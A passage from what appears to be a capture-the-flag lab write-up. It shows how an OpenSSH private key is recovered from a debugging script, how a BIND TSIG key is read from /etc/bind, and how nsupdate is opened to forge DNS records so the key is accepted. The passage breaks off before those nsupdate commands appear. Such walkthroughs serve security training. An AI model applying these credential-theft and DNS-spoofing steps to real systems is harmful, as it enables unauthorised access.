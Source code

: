 ```
$ file C62796521-debugging.script  
C62796521-debugging.script: UTF-8 Unicode text, with very long lines, with CRLF, CR, LF line terminators, with escape sequences, with overstriking
```

When we look into the contents of the file, we find an OpenSSH private key.

![/img/dynstr/priv-key.png](/img/dynstr/priv-key.png)

Let us copy this private key to a file on our local machine and clean up the bad characters such the newlines.

When we try to login using the key, we can see that we are unable to login and is still asking for bindmgr's password. It appears that the private key is not accepted.

Looking into the authorized_keys file in bindmgr, we can see that only hosts with the DNS record `infra.dyna.htb` can login with this key.

```
$ cat authorized_keys
from="*.infra.dyna.htb" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6CcwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7aXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WOD bindmgr@nomen
```

### Shell as bindmgr

We can associate our IP to a domain name by adding a PTR recod with the domain name scheme in the authorized_key file. In order to do that, we must first get the bind key for the `infra` subdomain, which can be found in `/etc/bind`

```
$ cat /etc/bind/infra.key
cat /etc/bind/infra.key
key "infra-key" {
        algorithm hmac-sha256;
        secret "7qHH/eYXorN2ZNUM1dpLie5BmVstOw55LgEeacJZsao=";
};

```

Next, we import the keyfile using nsupdate. This will bring up the nsupdate console

`nsupdate -k /etc/bind/infra.key`


We can now add the A and PTR records for our attacker machine. Note the following before inputting the next commands:
